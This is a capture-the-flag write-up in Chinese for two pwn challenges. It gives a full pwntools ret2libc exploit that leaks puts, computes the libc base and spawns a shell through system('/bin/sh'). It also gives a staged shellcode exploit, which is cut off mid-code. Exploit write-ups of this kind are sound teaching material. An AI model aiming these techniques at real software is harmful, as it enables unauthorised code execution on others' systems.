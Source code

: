 48:noting_in_64

​	这题连system都没了,所以需要先调用put泄露一个函数的地址.(这里我泄露的是put),然后用获得的put地址减去从libc中获得的地址,得到的就是libc基址.然后用	它加上system在libc中的地址,就是我们在第二段payload中使用的system地址.

​	在第一段payload的最后加上main的地址,让第一段payload执行完后程序再次执行main,以读入第二段payload

​	代码:

```python
from pwn import *
r=remote("contest.ctf.nefu.edu.cn",33322)
libc=ELF("./libc.so.6")

#context(os='linux', arch='amd64')
#r=process("./pwn")
#gdb.attach(r)
#pause()

rdi_loc=0x401218
main_loc=0x40121E
puts_got=0x4033d8
puts_plt=0x401060
r.recvuntil("e \n")
payload = b'a'*40+p64(rdi_loc)+p64(puts_got)+p64(puts_plt)+p64(main_loc)
r.sendline(payload)

puts_real = u64(r.recvline()[:-1].ljust(8,'\x00'))

bas_loc=puts_real-libc.sym['puts']
sys_loc=libc.sym['system']+bas_loc
binsh_loc=libc.search("/bin/sh").next()+bas_loc
payload=b'a'*40+p64(rdi_loc)+p64(binsh_loc)+p64(sys_loc)
print(r.recvuntil("e \n"))
r.send(payload)
r.interactive()
```

49:shellcode_level1

​	这题能读入的长度只有0x10,所以只能执行syscall 0,利用寄存器内现存的一部分参数读入第二段payload.

​	由于第一个payload执行完以后,r程序会从0x20240000+0x10的地方继续执行,但是payload2依旧是从0x20240000开始读入,所以在payload2之前加上10个	nop(当然可以更多一点),让程序能够完整的执行payload2.

​	代码:

```python
#read:0
from pwn import *
context(os='linux', arch='amd64')
shellcode = asm('''
mov rdx,100 
xor rax,rax
syscall
''')

payload=shellcode
#r=remote("contest.ctf.nefu.edu.cn",32883)
r=process('./pwn')
gdb.attach(r)
pause()
print(r.recvuntil('e\n'))
r.send(payload)
#payload2=asm(shellcraft.sh())
payload2=asm('''
	nop
	nop
```